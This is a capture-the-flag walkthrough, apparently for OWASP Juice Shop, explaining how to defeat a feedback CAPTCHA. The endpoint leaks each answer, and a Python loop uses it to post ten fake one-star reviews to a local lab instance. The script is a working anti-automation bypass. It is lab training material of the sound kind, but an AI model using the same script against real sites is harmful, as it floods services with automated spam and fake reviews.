 ## CAPTCHA Bypass
### Challenge: Submit 10 or more customer feedbacks within 10 seconds.
### Category: Broken Anti Automation

My favorite challenge so far!

Firstly, while using burp to capture HTTP requests > Customer feed back form > submit some feedback

We observe that the following parameters are required `captchaId` which is an incremental id for each "challenge" and a `captcha` for the answer to the challenge.

![captcha1.png](captcha1.png)

If you check the Developer tools XHR requests, observe that the `/rest/captcha` endpoint is call when the feedback page loads, which provides a new feedback captcha (they even provide the answer too!)

![captcha2.png](captcha2.png)

We have all the information needed to write our script, using python, we can test out the GET request to this endpoint and able to extract the values we need to form a POST request. 

![captcha3.png](captcha3.png)

Finally writing the script to loop it through 10 times so that we can complete this challenge.

```python
import requests
import json

for x in range(0,10):

	# GET captcha id and answer
	r = requests.get("http://127.0.0.1:3000/rest/captcha/")
	data = r.json()

	captcha_id = data['captchaId']
	captcha_answer = data['answer']

	# POST form 

	# Create form parameters
	# sample parameters {"captchaId":11,"captcha":"17","comment":"asdasd","rating":5}
	json_obj = {"captchaId":captcha_id,"captcha":captcha_answer,"comment":"sucks!","rating":1}

	headers = {
	'Content-type':'application/json', 
	'Accept':'application/json' }
	result = requests.post("http://127.0.0.1:3000/api/Feedbacks", data=json.dumps(json_obj), headers=headers)
	print(result)
	print(result.status_code)
	#print(result.json())
```

In short, this script does the following things:
1. Gets a captcha unique ID and its answer, these 2 values are required to send in our form.
2. Form a json object with our form values `json_obj`
3. Create a post request adding HTTP data such as headers (defining content type) and converting our object to json.
4. printing the results of the script. Type 2 responses indicating successful.

![captcha4.png](captcha4.png)

